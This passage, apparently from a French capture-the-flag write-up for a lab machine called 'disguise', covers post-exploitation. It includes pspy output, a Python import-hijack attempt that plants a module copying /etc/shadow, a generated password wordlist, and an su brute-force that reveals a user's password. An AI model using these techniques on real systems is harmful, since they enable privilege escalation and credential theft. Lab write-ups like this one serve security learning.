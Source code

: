```
2025/05/07 11:01:01 CMD: UID=0    PID=15859  | /bin/sh -c /usr/bin/python3 /opt/query.py /home/darksoul/config.ini > /home/darksoul/darkshopcount 
2025/05/07 11:01:01 CMD: UID=0    PID=15860  | /usr/bin/python3 /opt/query.py /home/darksoul/config.ini
```

`pspy` ne nous indique pas le répertoire de travail du process. Je n'ai pas énormément de dossiers écrivables avec l'utilisateur `www-data` mais j'ai quand même essayé d'hijacker l'import de `mysql.connector`.

```console
www-data@disguise:/var/www/dark$ mkdir -p mysql/connector
www-data@disguise:/var/www/dark$ touch mysql/__init__.py
www-data@disguise:/var/www/dark$ echo -e 'import os\nos.system("cp /etc/shadow /tmp")' >  mysql/connector/__init__.py
www-data@disguise:/var/www/dark$ python3
Python 3.7.3 (default, Mar 23 2024, 16:12:05) 
[GCC 8.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import mysql.connector
cp: cannot open '/etc/shadow' for reading: Permission denied
```

La théorie fonctionne donc, mais après quelques minutes d'attente, force est de constater que ce n'est pas la solution.

Étant donné que l'utilisateur semble toujours utiliser la même base de mot de passe, j'ai créé une wordlist :

```python
import string

base = "Str0ngPassw0d1"

with open("passlist.txt", "w", encoding="utf-8") as fd:
    for char in string.printable.strip():
        print(f"{base}{char}{char}{char}", file=fd)
```

On ne peut pas brute-forcer SSH car l'utilisateur `darksoul` ne permet que l'authentification par clé.

Je me suis donc tourné vers [su-bruteforce](https://github.com/carlospolop/su-bruteforce/) :


```console
www-data@disguise:/tmp$ ./suBF.sh -u darksoul -w passlist.txt 
  [+] Bruteforcing darksoul...
  You can login as darksoul using password: Str0ngPassw0d1???
  Wordlist exhausted
```

On a enfin le premier flag :

```console
darksoul@disguise:~$ cat user.txt 
Good good study & Day day up,but where is the flag?
```
